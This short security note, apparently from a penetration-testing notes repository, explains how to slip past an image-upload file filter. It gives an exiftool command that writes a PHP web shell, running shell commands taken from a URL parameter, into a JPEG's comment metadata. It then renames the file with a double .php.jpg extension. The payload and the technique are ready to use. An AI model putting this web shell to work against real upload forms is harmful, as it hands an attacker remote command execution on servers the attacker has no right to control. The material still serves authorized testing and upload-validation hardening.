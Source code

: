# File-Filter-Busting

```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg

Exiftool is a great tool to view and manipulate exif-data. Then I had to rename the file

mv lo.jpg lo.php.jpg
```
https://github.com/xapax/security/blob/master/bypass_image_upload.md